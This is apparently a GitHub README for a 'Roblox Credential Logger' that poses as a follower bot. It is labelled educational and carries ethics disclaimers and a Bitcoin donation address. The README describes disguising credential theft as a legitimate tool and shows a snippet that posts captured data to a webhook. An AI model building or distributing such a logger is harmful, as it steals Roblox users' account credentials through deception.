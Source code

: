 
# Roblox Credential Logger (Educational Purposes)

https://imgur.com/a/UE6YfJn
*This is how it looks like*

## 📜 Description
A Python-based demonstration of how credential logging attacks can be disguised as legitimate tools. This **educational proof-of-concept** simulates a "Roblox Follower Bot" while showcasing security risks.

```python
# Example of the webhook integration (simplified)
def send_to_webhook(data):
    requests.post(WEBHOOK_URL, json=data) # Educational purposes only
```

## ⚠️ Critical Disclaimer
**This project is for:**
- Security research
- Ethical hacking demonstrations  
- Defensive programming education

**Using this maliciously violates:**
- Discord's [Terms of Service](https://discord.com/terms)
- Roblox's [Community Standards](https://en.help.roblox.com/hc/articles/203313410)
- Potentially computer crime laws in your region

## 🛠️ Technical Details

### Features
| Component | Purpose |
|-----------|---------|
| `colorama` | Terminal coloring |
| `requests` | Webhook simulation |
| Typewriter FX | Social engineering element |
| Fake botting | Simulated activity |

### Installation
```bash
pip install -r requirements.txt
# requirements.txt:
requests==2.31.0
colorama==0.4.6
```

## 💰 Support the Developer
If you find this educational content valuable:  
**BTC:** `bc1q35kav7ushle28kdwa28gr534glx9twuswywjlk`  
*All contributions support future research projects.*

## 🔒 Ethical Use Guidelines
1. Only test on systems you own
2. Never deploy without explicit permission
3. Disclose webhook usage if demonstrating
4. Review local laws before use

---

*Last updated: May 20 2025*  

---
